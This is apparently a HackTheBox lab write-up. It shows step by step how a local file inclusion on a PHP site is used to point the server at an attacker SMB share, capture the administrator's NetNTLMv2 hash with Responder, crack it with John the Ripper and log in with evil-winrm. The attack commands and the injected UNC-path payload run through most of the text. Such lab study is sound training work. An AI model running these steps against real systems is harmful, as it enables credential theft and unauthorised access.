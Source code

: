 #-Starting-Point
#-HTB 

---

##### We will use a  utility called Responder to capture a NetNTLMv2 hash and later use a utility known as john the ripper to test millions of potential passwords to see if they match the one used to create the hash.

---

First I set up the openvpn connection with HackTheBox.
```
sudo openvpn starting-point.ovpn
```

I set the IP Address of the machine to a local variable, that will be deleted with the terminal.
```
IP=10.129.222.220
```

Then I tried to connect to the website using the IP address on FireFox. This failed.

So, I then added the IP address and the redirected site name to the file /etc/hosts
```
sudo vim /etc/hosts
```

This could have also been done like so:
```
echo "10.129.128.223 unika.htb" | sudo tee -a /etc/hosts
```

Now I could access the website using the IP address.
Using Wappalyzer, I can see that the programming language used for the website is PHP.

When checking the different language URLs, there is a PHP request shown:
```
http://unika.htb/index.php?page=french.html
```

Because this is accessing a file, there may be an Local File Inclusion (LFI) vulnerability.
Here is what an [LFI](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) is, and how to check for them.

The acronym NTLM stand for New Technology LAN Manager.
An [NTLM](https://www.crowdstrike.com/cybersecurity-101/ntlm-windows-new-technology-lan-manager/) is a version of client authentication present on some servers. 

Microsoft employs NTLM & Kerberos for authentication services.

[Responder](https://www.kali.org/tools/responder/) is a tool that can be used to redirect to a network.
In this scenario it can be used for the NTLM challenge / response protocols.
The *-I* flag specifies the desired Network in the command line.

[John (the Ripper)](https://www.kali.org/tools/john/) is a tool used to check for weak or insecure passwords.

Running the Git cloned Responder tool failed on the Machine.
However, using the preinstalled Kali Version of Responder, the command worked:
```
sudo responder -I tun0
```

With an SMB request, we can specify the webpage to request access to our machine:
```
http://unika.htb/?page=//10.10.15.114/home/kali/mitm
```

This will fail and give use an error; however, the permission denied will capture the hashed password of the administrator from the running Responder command.

I then copied the full hashed password line and saved it to a file using echo > hash.txt

This hash can now be cracked using John the Ripper:
```
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

I needed to get the rockyou.txt file by installing [wordlists](https://www.kali.org/tools/wordlists/).

The password was found almost instantly: badminton

We can now connect to the windows machine from Kali Linux by using [EvilWinRM](https://github.com/Hackplayers/evil-winrm).
```
evil-winrm -i 10.129.136.91 -u administrator -p badminton
```

The list of users can be found by using the command:
```
cd C:\Users
```

From here, we found a user named Mike.
We can check Mike's files by using the command:
```
dir C:\Users\Mike\Desktop
```

Mike has a file called flag.txt on the Desktop. Interesting.
The contents of this file can be checked on the Windows machine like this:
```
type C:\Users\Mike\Desktop\flag.txt
```

And with this, the challenge is done!

---

On this machine, we found a LFI vulnerability.
This is where web pages are loaded based on a local file on the server.
Windows uses NTLM or Kerberos for client authentication.
NTLM basically uses a challenge and response authentication technique.
Responder is a listener tool that can capture authentication traffic.
Using this tool, the hashed password for the server administrator was captured.
John the Ripper is a password cracking tool that can be used on hashed passwords to attempt to brute force the decryption.
Using John the Ripper on the administrators hashed password resulted in the plaintext password.
Now with this login information, we can exploit remote connection to the machine.
Because the machine runs on Windows, and we are locally running Kali Linux, we can use the evil-winrm command to connect to the IP with a username and password.
Now connected, we can explore the machine for files.
Going to the C:\\Users directory we can find a list of Users on the machine.
From here, we see a User named Mike.
With Administrator level permissions, we can explore Mike's file to find the flag.txt